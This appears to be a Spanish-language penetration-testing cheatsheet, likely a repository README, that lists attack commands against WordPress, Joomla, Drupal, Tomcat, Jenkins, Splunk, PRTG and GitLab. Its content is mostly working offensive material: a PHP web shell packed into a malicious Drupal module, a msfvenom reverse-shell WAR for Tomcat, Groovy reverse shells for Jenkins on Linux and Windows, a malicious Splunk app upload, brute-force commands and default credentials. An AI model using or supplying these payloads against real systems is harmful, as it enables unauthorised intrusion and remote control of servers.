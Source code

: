 # Cheatsheet ⚙

## Enumeración 👶

| Herramientas |
| --- | 
| **Nmap:** `nmap -p- --open -oX scan -iL [scopes].txt` |
| **Eyewitness:** `eyewitness --web -x scan.xml -d [Output Directory]` |
| **Aquatone** `cat scan.xml \| aquatone -nmap` | 

## WordPress 🛒

| Herramientas |
| --- | 
| **Wpscan:** `wpscan --url [Dominio] [Opciones]` |
| **Directorios:** `/wp-includes/` `/wp-admin/` `/wp-content/[plugins \| themes]` `readme.txt` |

## Joomla 🏫
| Herramienta | Uso |
| --- |:-----:|
| **Droopescan** | `droopescan scam joomla --url [Domain]` |
| **Directorios** |`/README.txt` `media/system/js/` `/administrator/manifests/files/joomla.xm` `/plugins/system/cache/cache.xml` |
| **[joomscan](https://github.com/OWASP/joomscan)** |  `python2.7 joomlascan.py -u [Domain]` |
| **[joomlabrute-force](https://github.com/ajnik/joomla-bruteforce)** | `python3 joomla-brute.py -u [Dominio] -w [Diccionario] -usr "[Username]"` |

## Drupal 💧
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `CHANGELOG.txt` `README.txt` |
| **Droopescan** | `droopescan scam drupal -u [Domain]` |
| **drupalgeddon** | **[drupalgeddon](https://www.exploit-db.com/exploits/34992)** |
| **drupalgeddon 2** | **[drupalgeddon 2](https://www.exploit-db.com/exploits/44448)** |
| **PHP Filter Module** |  `wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz` |

| Subir Módulo Vulnerable |
|:-----------------------:|
| `wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz` |
| `tar xvf captcha-8.x-1.2.tar.gz` |
| **shell.php**: `<?php system($_GET['cmd']);?>` | 
| **.htaccess**: `<IfModule mod_rewrite.c> \n RewriteEngine On \n RewriteBase / \n </IfModule>` |
| `mv shell.php .htaccess captcha` |
| **Comprimido Final:** `tar cvf captcha.tar.gz captcha/` |
| `Subimos el módulo` (Esto varía entre versiones de **Drupal**)


## Tomcat 😼
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `/docs/` `/manager` `/host-manager` |
| **.War File** | `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp` \| `zip -r backup.war cmd.jsp` |
| **msfvenom** | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war` |


## Jenkins 🤵
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `/script` |

| **`Linux` Reverse Shell** |
|:---:|

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[Port];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

| **`Windows` Reverse Shell** |
|:---:|

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Splunk 🔍
| Herramienta | Uso |
| --- |:-----:|
| **Subir Aplicación Maliciosa** | `https://github.com/0xjpuff/reverse_shell_splunk.git` \| `tar -cvzf shell.tar.gz reverse_shell_splunk`  \| `Management` -> `Apps` -> `Install App From File` |

## PRTG Monitor 💻
| Herramienta | Uso |
| --- |:-----:|
| **Credenciales Por Defecto** | `prtgadmin:prtgadmin` |
| **Notifications RCE** | `https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/` |


## GitLab 🐱‍👤
| Herramienta | Uso |
| --- |:-----:|
| **Version (Authenticated)** | `/help` |
| **Projects** | `/explore`  |
| **User Enumerate** | `https://www.exploit-db.com/exploits/49821`  |
| **RCE (Authenticated)** | `https://www.exploit-db.com/exploits/49951` |

## Tomcat CGI  😾
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `/cgi`  \| `/cgi-bin` |
| **Extensiones de Archivos** | `.pl`-`.cgi`-`.pl`-`.bat`-`.cmd`-`.sh` |
| **ShellShock** | `https://blog.cloudflare.com/inside-shellshock/` |

## Attacking Thick Client Applications

| - | Nombres |
| --- |:-----:|
| **Herramientas** | [CFF Explorer](https://ntcore.com/?page_id=388)  \| [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) \| [Strings](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) \| [dnSpy](https://github.com/dnSpy/dnSpy) |

